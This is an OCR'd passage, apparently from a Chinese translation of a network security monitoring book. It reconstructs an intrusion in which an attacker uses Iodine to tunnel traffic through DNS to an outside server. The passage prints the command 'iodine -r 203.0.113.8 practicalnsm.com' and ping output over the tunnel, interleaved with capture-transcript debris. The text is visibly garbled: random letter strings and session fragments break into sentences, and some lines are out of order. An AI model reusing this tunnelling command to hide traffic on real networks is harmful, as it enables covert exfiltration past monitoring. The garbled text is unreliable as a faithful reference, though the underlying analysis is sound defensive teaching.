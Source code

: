 使用 *practicalnsm.com* 域名。（我想知道是谁造成了这次入侵？）

因为攻击者以这种方式启动 Iodine，所以看起来像是受害者，

10.0.0.99 将直接与位于 203.0.113.8 的 Iodine 服务器进行通信\。

（在运行 Iodine 时，不需要与 DNS 服务器进行通信，

以这种方式运行，但隐蔽流量仍然会表现为 DNS。)

DST: ................core_channel_write....)....54112282595894012391779534721588........2......

./...4**iodine -r** **203.0.113.8 practicalnsm.com**

*列表 11-24: 启动 Iodine 工具*

列表 11-25 很可能显示了从 Iodine 服务器收到的输出。我们

可以看到服务器 IP 地址是 10.10.0.1，这告诉我们存在一个 VPN

可以看到，10.0.0.99 和 203.0.113.8 之间建立了一条通道。现在，这两台计算机

可以通过 IP 地址（如 10.10.0.1）彼此通信。

服务器权限，而不是 203.0.113.8\. （Iodine 工具封装了攻击者的

DNS 流量中的通信。)

SRC: ....................core_channel_write....)....

WXQSRQPTXGMIWNZFNDHOHWTCFEJDDKUF................2.......:...4**服务器隧道 IP 是 10.10.0.1**

*列表 11-25: 来自 Iodine 服务器的输出*

为了测试连接性，入侵者使用 ping 工具联系 10.10.0.1，

隧道另一端的 IP 地址，如列表 11-26 所示。

远程系统回复，隧道工作正常。NSM 传感器将无法

看到 ICMP 流量，但它将开始看到奇怪的 DNS 活动。

SRC: ...............2...........4**ping -c** 3 **10.10.0.1**

SRC: ....................core_channel_write....)....BGCEPMSGLBOFCPOHKXSKOAMVWVCRDKFU.

SRC: .

SRC: ..............2.......:...4**PING 10.10.0.1 (10.10.0.1) 56(84) 字节的数据。**

SRC: ...........2........core_channel_write....)....GSFTPZWPJXAREZEXEEALKFUBCUSRLPEK.

SRC: .

SRC: ..............2.......A...464 字节来自 10.10.0.1: icmp_req=1 ttl=64 时间=2.07 毫秒 SRC: ...........9........core_channel_write....)....MUNJGYKCWWYETWKFZOWTIVKVAQNLKNCQ.

SRC: .

SRC: ..............2.......A...464 字节来自 10.10.0.1: icmp_req=2 ttl=64 时间=1.15 毫秒 SRC: ...........9........core_channel_write....)....JLCWSBHPCCBTZFUVTJUYBYQVUOXEZPPF.

SRC: .

SRC: ..Q...........2...........464 字节来自 10.10.0.1: icmp_req=3 ttl=64 时间=1.12 毫秒 SRC:
